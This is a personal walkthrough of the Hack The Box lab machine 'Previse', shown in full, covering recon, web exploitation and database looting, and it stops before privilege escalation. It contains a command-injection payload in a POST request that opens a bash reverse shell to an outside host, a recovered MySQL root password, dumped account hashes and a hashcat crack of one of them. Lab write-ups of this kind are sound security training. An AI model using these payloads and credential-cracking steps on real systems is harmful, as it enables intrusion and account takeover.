 # PREVISE

## Nmap

```{sh}
nmap -sC -sV -p22,80 10.129.95.185
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-14 21:40 CET
Nmap scan report for 10.129.95.185
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.12 seconds
```

host is running both an ssh server and an apache server. Let's first find vulns in the apache server

# WEB-APP

information we can get before the actual assesment

the site was created by m4lwhere

One strange thing is that when asking for resources we should have not access to, such accoutns, we are acctually given 
the html web page. taking in account that this is a php based web, it means that it executes before redirection, meaning that 
we can just do whatever we want anyway.

mysql is actually up and running (even though it was not in the nmap)
## users 

admin: newguy
z
## Post explotation

Now we have access to the code of all the files in the web server:

discoveries:
we can upload files to the server with no restrictions 
many times the web-page accesses a mysql database 
user-passwords are hashed in the database
The database previse has credentials root:mySQL_p@ssw0rd!:)

POST /logs.php HTTP/1.1
Host: 10.129.95.185
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.95.185
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.95.185/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=nhk0tigq378kme260i2vpisvmv
Connection: close

delim=%3bbash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.101/2020+0>%261'%3b

# Inside the machine 

home:

nothing here except the user flag (unreachable for now) and that the user m4lwhere likes to use vim

/var/www:

there exists files with id 1-6 and 24 25


ideas: there was a database storing user information (although passworld are hashed)

```{sh}
mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SHOW DATABASES;'

Database
information_schema
mysql
performance_schema
previse
sys

mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SHOW TABLES;' previse

Tables_in_previse
accounts
files

mysql -u root -p'mySQL_p@ssw0rd!:)' -e 'SELECT * FROM accounts;' previse

id	username	password	created_at
1	m4lwhere	$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.	2021-05-27 18:18:36
2	oriol	$1$🧂llol$vLuN7GB6eroB7YOErHW42.	2023-02-19 15:31:44

```

shell.php



hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.'  ../SecLists/Passwords/Leaked-Databases/rockyou.txt

remember salts go hash:salt independently of the mode 

 hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.'  ../SecLists/Passwords/Leaked-Databases/rockyou.txt --show
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!


## Sorry, but this machine ends here as i did not have time to take it further
